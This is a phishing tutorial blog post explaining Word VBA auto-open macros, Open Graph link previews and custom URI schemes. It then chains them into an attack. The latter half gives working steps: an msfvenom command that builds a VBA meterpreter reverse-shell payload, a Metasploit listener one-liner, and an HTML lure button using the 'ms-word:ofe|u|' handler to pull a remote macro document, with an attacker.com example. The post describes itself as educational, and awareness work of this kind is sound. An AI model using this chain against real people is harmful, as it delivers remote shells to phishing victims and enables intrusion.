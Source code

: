 ```yaml
---
title: Abusing OG Protocol With Macros
date: 2025-03-06 00:00:00 +0200
categories:
  - phishing
tags:
  - phishing
media_subpath: /assets/images/og
---
```

**Disclaimer:**

This post is for **educational and informational purposes only**. It is intended to raise awareness about how certain technologies work and should **not** be used for any malicious or unethical activities. Misusing this information may violate laws and terms of service, leading to serious legal consequences. The author **does not** encourage or condone any illegal actions. **Use this knowledge responsibly.**
# Introduction
Hello there! I’m Mohamed Aboelnasr, and in this article, we’ll dive into how adversaries can weaponize the **Open Graph (OG) protocol** and **macros inside Word files** to craft **effective phishing attacks** and achieve initial access. By combining these two techniques, attackers can enhance social engineering tactics and bypass common security measures. 

---
### What Are Macros in Microsoft Word?
Macros in Microsoft Word are **automated sequences of commands** written in **Visual Basic for Applications (VBA)** that perform repetitive tasks. They allow users to automate workflows, but they are also **a common attack vector** exploited by adversaries for malicious purposes.
#### How?
1. **Delivery** – The attacker sends a phishing email with a **Word document attachment** (e.g., "Invoice.docm" or "Urgent_Report.docm").
2. **Social Engineering** – The document tricks the user into **enabling macros** by displaying fake warnings (e.g., "This document is protected, enable macros to view content").
3. **Execution** – Once macros are enabled, the VBA script:
    - **Downloads and executes malware** (like a RAT, ransomware, or keylogger).
    - **Runs PowerShell or CMD commands** to create a backdoor.
    - **Modifies system settings** to establish persistence.
4. **Compromise** – The attacker gains **initial access** to the system, which can lead to full compromise.  

in the following image is how macros are added to a word file 
![Image](https://github.com/user-attachments/assets/46412b21-d2ce-403c-8c94-eb1da48ec446)

There are **auto-execution macros**, meaning they run or executed **automatically** when a Word document is opened, e.g., `AutoOpen()` and `Document_Open()` auto macros.
```vba
Sub AutoOpen()
    Dim str As String
    str = "calc.exe"
    Shell str, vbNormalFocus
End Sub
```

> _For the sake of this demo, we will simply open `calc.exe` to demonstrate how macros work. This harmless example illustrate how attackers can use VBA to execute commands on a victim's machine._

![Image](https://github.com/user-attachments/assets/6a1c995a-decd-4c0e-9138-dea7a882919f)
now anyone opens this document and enables the macros the calculator will open.
![Image](https://github.com/user-attachments/assets/c50cf3c5-5a18-4384-8b35-95bf1931e7d2)

---
### What Are Open Graph (OG):
Open Graph (OG) is a metadata protocol introduced by Facebook that allows web pages to control how their content appears when shared on social media platforms. By using OG meta tags, websites can define the title, description, image, and URL displayed in link previews, making shared links more visually appealing and engaging. While OG is designed for legitimate content sharing, adversaries can manipulate it to craft deceptive previews that enhance phishing and social engineering attacks.
In the following image, you can see how a shared post or link might appear on social media:

![Image](https://github.com/user-attachments/assets/8324182a-2fee-4d35-9a99-ccf9effce8e3)

This preview is controlled by **Open Graph (OG) meta tags** embedded within an HTML file. Below is an example of OG metadata that defines how this link is displayed when shared:

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta property="og:title" content="Unveiling Hidden Secrets">
    <meta property="og:description" content="A deep dive into deceptive techniques used in phishing and social engineering attacks.">
    <meta property="og:image" content="https://example.com/dark-secrets.jpg">
    <meta property="og:url" content="https://example.com/phishing-techniques">
    <title>Unveiling Hidden Secrets</title>
</head>
<body>
    <h1>How Attackers Manipulate Open Graph</h1>
    <p>Explore how adversaries exploit OG metadata to craft deceptive link previews.</p>
</body>
</html>
```

These **OG meta tags** tell platforms like **Facebook, Twitter, and LinkedIn** how to display the **title, description, image, and URL** when the page is shared. **Attackers often abuse this to create misleading previews** that look legitimate but lead to malicious websites. 

---
### **How Do Apps Like Zoom or Teams Open from a Browser Click?**
Have you ever clicked a meeting link and suddenly **Zoom, Microsoft Teams, or another app pops up**—seamlessly opening the meeting? This isn't magic; it's made possible by **Custom URI Schemes**.
let's take a step back and talk about a custom URI Scheme
### **What Is a Custom URI Scheme?**
A **Custom URI Scheme** allows installed applications to define their own **protocol handlers**, enabling browsers to interact directly with them. Instead of just opening a webpage, a **custom URL can launch an app** and pass specific instructions.
#### **Examples of Custom URI Schemes :**

- **Zoom:** `zoommtg://zoom.us/join?confno=123456789` → Opens the Zoom app and joins a meeting.
- **Microsoft Teams:** `msteams://teams.microsoft.com/l/meetup-join/...` → Launches Teams and joins a meeting.

#### **How Custom URI Schemes Registered in Windows :**
i created a custom uri for opening the notepad just for demonstration, and it's not hard you just need to register a custom uri in the registry editor as the following
1. Open **Registry Editor** (`regedit`).
2. Navigate to:
    ```
    HKEY_CLASSES_ROOT\notepad
    ```
    
3. Create a **new key** named `shell\open\command`.
4. Set the **default value** of `command` to:
    
    ```
    C:\Windows\System32\notepad.exe
    ```
    ![Image](https://github.com/user-attachments/assets/7bcc1a58-ac09-4fdd-a1f3-217d870b0755)
5. Now, typing `notepad://` in a browser or Run dialog `Win+R` will open Notepad.
![Image](https://github.com/user-attachments/assets/94fa6896-e5a0-42b5-b84b-ae401f39c29d)

---
### **How Attackers Exploit This Mechanism**

While these schemes are designed for convenience, **attackers can take advantage of them** to launch **malicious actions with minimal user interaction**. A well-crafted phishing attack might:
1. **Use Open Graph (OG) manipulation** to create a fake, enticing preview of a "secure document" or "urgent meeting."
2. **Embed a malicious Custom URI link** (e.g., `ms-word:ofe|u|https://attacker.com/malicious.docm`).
3. **When clicked, the link directly opens MS Word, Excel, or another app**, automatically retrieving a remote **macro-enabled** document.
4. **If macros are enabled, the malicious code executes**, leading to initial compromise.

And that is what we are going to do :"

---
first we will generate a vba reverse shell code using msfvenom
```sh
msfvenom -x x64 -p windows/x64/meterpreter/reverse_tcp lport=443 lhost=192.168.1.8 -f vba |xsel --clipboard

```
![Image](https://github.com/user-attachments/assets/c78859c6-2b9d-41bd-a10e-583fd9166066)

and start the listener using the multi/handler module in metasploit
```sh
msfconsole -x "use multi/handler;set lhost 192.168.1.8;set lport 443;set payload windows/x64/meterpreter/reverse_tcp;run"
```
next make a word document file with macros that will contain the shellcode generated from msfvenom
![Image](https://github.com/user-attachments/assets/bb8de95f-ca9a-4a27-83e7-5d9c7fdff329)

After setting up the malicious document, the attacker hosts or embeds it on a website. Now, all they need is for someone to **click the link**, which will open the document **directly in Microsoft Word**. If the victim enables macros, the attack is successful—simple and effective.
![Image](https://github.com/user-attachments/assets/d1cd2f07-ae69-4798-9669-5c4f8b6348d7)
```html
<a href="ms-word:ofe|u|http://192.168.1.8:8080/mymacro.doc"class="btn quote" >
Seek the Truth
</a>
```
- **`ms-word:`** → The **custom URI scheme** registered by Microsoft Word.
- **`ofe|u|`** → Special flags that tell Word how to handle the document:
    - **`ofe`** → Open in **editing mode**.
    - **`u`** → Specifies that the file is located at a URL.
- **`http://192.168.1.8:8080/mymacro.doc`** → The actual **document URL** to be opened.
When this link is executed (e.g., pasted in a browser’s address bar or run via `Win + R`), Microsoft Word will:
1. **Launch Word (if not already open).**
2. **Fetch the document** from the specified URL.
3. **Open it directly** in **editable mode**.
and just by convincing the victim to just visit the site and clicks the button
![Image](https://github.com/user-attachments/assets/db3e6002-d05d-4566-a5bb-b78f1709c11d)
he will be prompted to open Microsoft Word
![Image](https://github.com/user-attachments/assets/55ef5ea1-0924-4410-8ee0-4bc17ded66b8)
the word will start downloading the file and opens it
![Image](https://github.com/user-attachments/assets/6becc8e7-17ba-435a-b91d-604e3d4beb9e)

and if the victim enables editing and macros the malicious code will execute and the attacker will get a reverse shell connection back to his C2 or listener.
![Image](https://github.com/user-attachments/assets/937bd8c5-71f7-498f-89a5-aede10ff4bfc)

And that’s it. I hope no one gets tricked by this. and Remember, this is for educational purposes only— please please do not use it maliciously.  
stay safe people..
 
 ---
### References

- [Microsoft Office URI Schemes](https://learn.microsoft.com/en-us/office/client-developer/office-uri-schemes#13-uri-schema)
- [Open Graph Protocol](https://ogp.me/)
- [What is Open Graph and How Can I Use It?](https://www.freecodecamp.org/news/what-is-open-graph-and-how-can-i-use-it-for-my-website/)